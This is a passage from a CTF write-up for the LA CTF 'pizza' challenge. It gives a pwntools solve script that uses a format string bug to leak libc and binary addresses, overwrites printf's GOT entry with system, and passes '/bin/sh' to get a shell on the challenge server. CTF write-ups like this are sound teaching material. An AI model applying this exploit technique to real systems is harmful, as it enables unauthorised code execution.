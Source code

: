 ```python
p.sendlineafter(b'> ', b'12')
p.sendlineafter(b'topping: ', payload)

p.sendlineafter(b'> ', b'12')
p.sendlineafter(b'topping: ', b'/bin/sh')

p.sendlineafter(b'> ', b'0')
p.interactive()
```
The final pieces of the script can be seen above; we send in the payload as the first topping, then we send in "/bin/sh" so that the next time `printf`, now `system`, is called, that will be its argument and we will pop a shell. Then we specify the topping as pepperoni with "0", obviously. Another challenge that I enjoyed solving!! Full solve script below. 

```python
from pwn import *
from pwnlib.fmtstr import FmtStr, fmtstr_split, fmtstr_payload

elf = context.binary = ELF("pizza_patched")
libc = ELF('libc-remote.so.6')
context.terminal = ['tmux', 'split-window', '-h']

# p = elf.process()
p = remote("chall.lac.tf", 31134)
script = '''
init-pwndbg
break *(main + 456)
'''
#db.attach(p, script)

p.sendlineafter(b'> ', b'12')
p.sendlineafter(b'topping: ', "%67$p")
#print(p.recvline())

p.sendlineafter(b'> ', b'12')
p.sendlineafter(b'topping: ', b'%49$p')

p.sendlineafter(b'> ', b'12')
p.sendlineafter(b'topping: ', b'aaaaaaaa%31$p')

p.recvline()

libc_start_main = p.recvline()
libc_start_main = int(libc_start_main.strip(b'\n').decode(), 16) - 133

main = p.recvline()
main = int(main.strip(b'\n').decode(), 16)
main_offset = 0x0000000000001189
elf.address = main - main_offset
print(p.recvline())
print(hex(elf.address))

libc.address = libc_start_main - libc.symbols['__libc_start_main']
print(hex(libc.address))

p.sendline(b'y')

got_printf = elf.got.printf
writes = {got_printf: libc.symbols['system']}
payload = fmtstr_payload(6, writes, write_size='short')

p.sendlineafter(b'> ', b'12')
p.sendlineafter(b'topping: ', payload)
p.sendlineafter(b'> ', b'12')
```